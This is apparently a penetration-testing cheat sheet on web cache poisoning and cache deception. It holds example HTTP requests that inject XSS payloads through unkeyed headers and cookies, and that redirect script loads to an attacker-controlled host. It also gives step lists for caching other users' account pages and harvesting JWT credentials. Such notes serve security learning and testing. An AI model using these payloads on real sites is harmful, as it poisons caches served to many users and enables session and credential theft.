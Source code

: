 # Cache Poisoning and Cache Deception
* In **`web cache poisoning`**, the attacker causes the application to store some `malicious content` in the cache, and this content is served from the cache to other application users.

* In **`web cache deception`**, the attacker causes the application to store some `sensitive content` belonging to another user in the cache, and the attacker then retrieves this content from the cache.

# Cache Poisoning
You need first to identify unkeyed inputs (parameters not needed to appear on the cached request but that change the returned page), see how to abuse this parameter and get the response cached.

## Discovery: Check HTTP headers
### Server Cache Headers:
* **`X-Cache`**: in the response may have the value miss when the request wasn't cached and the value hit when it is cached
* **`Cache-Control`**: indicates if a resource is being cached and when will be the next time the resource will be cached again: Cache-Control: public, max-age=1800
* **`Vary`**: is often used in the response to indicate additional headers that are treated as part of the cache key even if they are normally unkeyed
* **`Age`**: defines the times in seconds the object has been in the proxy cache
* **`Server-Timing: cdn-cache; desc=HIT`**: also indicates that a resource was cached

### Local Cache headers:
* **`Clear-Site-Data`**: Header to indicate the cache that should be removed: Clear-Site-Data: "cache", "cookies"
* **`Expires`**: Contains date/time when the response should expire: Expires: Wed, 21 Oct 2015 07:28:00 GMT
* **`Pragma: no-cache`** same as **`Cache-Control: no-cache`**
* **`Warning`**: The **Warning** general HTTP header contains information about possible problems with the status of the message. More than one Warning header may appear in a response. **`Warning: 110 anderson/1.3.37 "Response is stale"`**

## Discovery: Caching 400 code
If you are thinking that the response is being stored in a cache, you could try to send requests with a bad header, which should be responded to with a status code 400. Then try to access the request normally and if the response is a 400 status code, you know it's vulnerable (and you could even perform a DoS).


## Discovery: Identify and evaluate unkeyed inputs
You could use [**Param Miner**](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) to brute-force parameters and headers that may be changing the response of the page. For example, a page may be using the header `X-Forwarded-For` to indicate the client to load the script from there:
```javascript
<script type="text/javascript" src="//<X-Forwarded-For_value>/resources/js/tracking.js"></script>
```

## Exploiting
* A header like **`X-Forwarded-For`** is being reflected in the response unsanitized.
> You can send a basic XSS payload and poison the cache so everybody that accesses the page will be XSSed.
> Note that this will poison a request to `/en?region=uk` not to `/en`
```javascript
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```
* Using web cache poisoning to exploit **`cookie-handling`** vulnerabilities
```javascript
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```
* Using multiple headers to exploit web cache poisoning vulnerabilities
  * you may find an Open redirect if you set `X-Forwarded-Host` to a **domain controlled by you**
  * `X-Forwarded-Scheme` to http
```javascript
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
* limited Vary header
If you found that the X-Host header is being used as domain name to load a JS resource but the Vary header in the response is indicating User-Agent. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:
```javascript
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```


# Cache Deception
### Caching Sensitive Data
Web Cache Deception on PayPal Home Page
1. Normal browsing, visit home : `https://www.example.com/myaccount/home/`
2. Open the malicious link : `https://www.example.com/myaccount/home/malicious.css`
3. The page is displayed as `/home` and the cache is saving the page
4. Open a private tab with the previous URL : `https://www.example.com/myaccount/home/malicous.css`
5. The content of the cache is displayed


## CloudFlare Caching
CloudFlare caches the resource when the `Cache-Control` header is set to `public` and `max-age` is greater than `0`.

* The Cloudflare CDN does not cache HTML by default
* Cloudflare only caches based on file extension and not by MIME type: [cloudflare/default-cache-behavior](https://developers.cloudflare.com/cache/about/default-cache-behavior/)

## Web Cache Deception on OpenAI
1. Attacker crafts a dedicated **.css** path of the **`/api/auth/session`** endpoint
2. Attacker distributes the link
3. Victims visit the legitimate link
4. Response is cached
5. Attacker harvests **JWT Credentials**

## Tools
* [PortSwigger/param-miner](https://github.com/PortSwigger/param-miner)
* [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner)











































































